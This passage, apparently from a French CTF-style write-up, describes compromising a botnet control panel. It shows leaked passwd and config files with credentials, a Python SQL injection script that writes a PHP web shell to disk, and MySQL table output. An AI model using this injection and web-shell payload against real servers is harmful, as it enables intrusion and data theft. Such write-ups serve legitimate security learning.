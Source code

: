```plain
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
dexter:x:1000:1000:dexter,,,:/home/dexter:/bin/bash
mysql:x:104:106:MySQL Server,,,:/nonexistent:/bin/false
;#
```

Après avoir retrouvé les fichiers de configuration d'Apache (*/etc/apache2/apache2.conf* et */etc/apache2/sites-enabled/000-default*) je récupère le *config.php* du C&C :  

```php
<?php
    //Connect to shitty DB
        $dbname = "nasproject";
        $user = "root";
        $pw = "password";
    $link = mysql_connect('localhost',$user,$pw);
    $db = mysql_select_db($dbname,$link);
    /////////////////////////////////////////
?>
```

C'est bien mais maintenant il faudrait écrire sur le disque. Pas bien compliqué (*exes* étant le path utilisé par le script d'upload donc certainement écrivable) :  

```python
payload = "' UNION SELECT NULL,'<?php system($_GET[\"cmd\"]); ?>',NULL INTO OUTFILE '/var/www/Panel/exes/bd.php'#"
url = "http://192.168.1.54/Panel/gateway.php"
hdrs = {"Content-Type": "application/x-www-form-urlencoded"}

sess = requests.session()
d = {
        "val": base64.b64encode(key),
        arg: encrypt(payload)
    }
r = sess.post(url, data=d, headers=hdrs, timeout=3)
data = urllib.unquote(r.headers['set-cookie'].split("=", 1)[1])
print decrypt(data)
```

Une fois un shell récupéré je peux me connecter sur le serveur MySQL avec les identifiants vus plus tôt.  

```plain
mysql> show tables;
+----------------------+
| Tables_in_nasproject |
+----------------------+
| bots                 |
| commands             |
| config               |
| logs                 |
| users                |
+----------------------+
5 rows in set (0.00 sec)

mysql> select * from users;
+-------------+-----------------------------------------------------------+
| name        | password                                                  |
+-------------+-----------------------------------------------------------+
```